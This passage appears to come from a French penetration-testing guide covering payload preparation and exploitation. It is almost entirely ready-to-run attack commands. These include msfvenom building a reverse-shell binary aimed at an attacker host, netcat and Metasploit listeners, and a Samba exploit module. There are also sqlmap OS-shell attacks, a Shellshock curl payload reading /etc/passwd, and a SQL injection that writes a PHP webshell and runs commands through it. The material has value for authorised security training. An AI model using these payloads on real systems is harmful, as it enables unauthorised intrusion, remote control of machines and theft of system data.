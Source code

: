 ### Phase 3 : Préparation du Payload
```bash
# 1. Génération avec msfvenom
msfvenom -p linux/x64/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f elf > shell.elf

# 2. Listener pour recevoir le shell
nc -nlvp 4444

# 3. Ou avec Metasploit handler
msfconsole
use exploit/multi/handler
set PAYLOAD linux/x64/shell_reverse_tcp
set LHOST attacker_ip
set LPORT 4444
run
```

### Phase 4 : Exploitation
```bash
# Exécution de l'exploit selon la vulnérabilité
# Exemples selon les cas :

# Web - SQL Injection
sqlmap -u "http://target.com/page.php?id=1" --os-shell

# Network - Buffer Overflow avec Metasploit
use exploit/linux/samba/is_known_pipename
set RHOSTS target.com
set PAYLOAD linux/x64/shell_reverse_tcp
set LHOST attacker_ip
run

# Manuel - Shellshock via curl
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://target.com/cgi-bin/script.cgi
```

## 🌐 Exploitation Web - Techniques Essentielles

### SQL Injection → RCE (Remote Code Execution)
```bash
# 1. Détection de SQL injection
sqlmap -u "http://target.com/page.php?id=1" --batch

# 2. Obtenir un shell OS via SQLi
sqlmap -u "http://target.com/page.php?id=1" --os-shell

# 3. Manuel avec UNION injection
# Si on peut écrire des fichiers :
http://target.com/page.php?id=1' UNION SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php' --

# 4. Execution via le webshell uploadé
curl "http://target.com/shell.php?cmd=whoami"
```
